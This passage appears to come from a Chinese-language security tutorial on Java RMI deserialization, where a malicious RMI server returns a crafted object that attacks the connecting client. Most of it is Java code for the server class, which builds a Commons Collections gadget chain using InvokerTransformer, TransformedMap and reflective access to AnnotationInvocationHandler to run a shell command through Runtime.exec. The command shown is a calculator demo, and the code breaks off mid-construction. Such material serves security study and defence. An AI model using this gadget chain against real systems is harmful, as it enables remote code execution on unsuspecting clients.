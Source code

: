 ##### 服务端攻击客户端

很容易理解，服务端返回客户端的结果如果是一个对象，会将该对象进行序列化传输，在客户端进行反序列化还原。因此如果服务端返回一个恶意对象，客户端正常连接时会造成反序列化攻击。

服务端--`UserClass`
```java
package com.rmi.server;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.rmi.RemoteException;
import java.rmi.server.UnicastRemoteObject;
import java.util.HashMap;
import java.util.Map;

/**
 * Created by dotast on 2023/1/3 17:14
 */
public class UserClass extends UnicastRemoteObject implements UserInterface {

    protected UserClass() throws RemoteException {
    }

    @Override
    public Object getUser() throws Exception{
        System.out.println("调用getUser方法成功");
        // CC链gadget
        String cmd = "open -a Calculator.app";

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                // new Class[0]为占位符
                new InvokerTransformer(
                        "getMethod",new Class[]{String.class, Class[].class},new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",new Class[]{Object.class, Object[].class},new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec", new Class[]{String.class}, new Object[]{cmd}
                )
        };
        // 创建ChainedTransformer调用链
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        // 创建Map对象
        Map<Object, Object> map = new HashMap<>();
        map.put("value","value");
        // 调用TransformedMap创建一个含有恶意调用链的Transformer类的Map对象
        Map transformedMap = TransformedMap.decorate(map, null, chainedTransformer);

        // 获取AnnotationInvocationHandler类对象
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        // 获取AnnotationInvocationHandler类的构造方法
        Constructor constructor = cls.getDeclaredConstructor(Class.class, Map.class);
        // 设置方法访问权限
        constructor.setAccessible(true);
```